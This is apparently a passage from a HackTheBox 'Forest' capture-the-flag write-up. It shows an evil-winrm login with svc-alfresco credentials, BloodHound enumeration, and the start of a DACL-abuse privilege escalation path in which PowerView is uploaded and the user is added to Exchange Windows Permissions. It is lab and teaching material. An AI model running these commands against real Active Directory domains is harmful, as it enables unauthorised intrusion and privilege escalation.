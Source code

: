 ## Logging in as svc-alfresco with creds

```bash
evil-winrm -i forest.htb -u 'svc-alfresco' -p 's3rvice'
```
successful login, grabbed user flag! `4078533b1e2413c4977ef33e6701bf89`

---
# Privesc

Since we now have a valid user’s creds, we can try enumerating via bloodhound, to get a better picture of the AD, with a visual representation.

## Bloodhound as svc-alfresco

```bash
bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -ns 10.129.95.210 -c All --zip
```

lets inspect the group memebership for our svc-alfresco
![](MediaFiles/Pasted%20image%2020250727154554.png)

it appears that he is member of `Account Operators`, which has `GenericAll` rights towards 29 groups!
![](MediaFiles/Pasted%20image%2020250727154612.png)
obviously we should now inspect their outbound control to decide which one we will be targeting.

By hitting outbound object control > Transitive object control, we see that `Account Operators` have the following rights towards these groups:
![](MediaFiles/Pasted%20image%2020250727154630.png)
The most logical path to me seems the one towards group `Exchange Windows Permissions`, since it has `WriteDacl` rights towards the `domain` so i will start from there.

## DACL abuse

To sum up, `svc-alfresco` is member of `Account Operators`. `Account Operators` has `GenericAll` rights towards multiple groups, so `svc-alfresco` does too. Since `Account Operators` has `GenericAll` over `EXCHANGE WINDOWS PERMISSIONS` group, and this group has `WriteDacl` rights towards the `Domain` this would be the path we'll follow.

### Add user to group 

Before actually abusing DACL, lets add the user to the group. From inside the machine: (be careful to upload the powerview.ps1 that works, from pwnbox i found it in the powersploit tool path)

We are going to use `PowerView`
```bash
# once logged in via win-rm, upload powerview from your local machine 
upload /root/Downloads/dev_PowerSploit/PowerSploit/Recon/PowerView.ps1 .\\PowerView.ps1

# import the uploaded powerview script
Import-Module .\\PowerView.ps1

# Define variables for better understanding and value assignement
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\\svc-alfresco', $SecPassword)

# Add svc-alfresco to EXCHANGE WINDOWS PERMISSIONS group
Add-ADGroupMember -Identity "EXCHANGE WINDOWS PERMISSIONS" -Members 'svc-alfresco'
```
